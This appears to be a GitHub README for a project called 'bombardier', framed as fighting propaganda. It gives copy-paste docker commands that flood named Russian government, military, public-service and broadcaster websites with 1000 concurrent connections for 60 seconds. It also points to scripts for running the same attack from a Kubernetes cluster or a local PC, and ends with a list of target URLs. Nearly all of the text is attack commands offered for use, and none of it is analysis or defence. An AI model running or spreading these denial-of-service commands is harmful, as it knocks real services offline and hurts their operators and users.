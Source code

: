 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
or easiest way 

`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://kremlin.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://mil.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://www.scrf.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://ach.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://epp.genproc.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://www.gosuslugi.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://www.1tv.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://mid.ru`
<br>
sites
https://mil.ru
<br>
http://www.scrf.gov.ru
<br>
https://ach.gov.ru
<br>
https://epp.genproc.gov.ru
<br>
https://www.gosuslugi.ru
<br>
http://kremlin.ru
<br>
https://www.1tv.ru
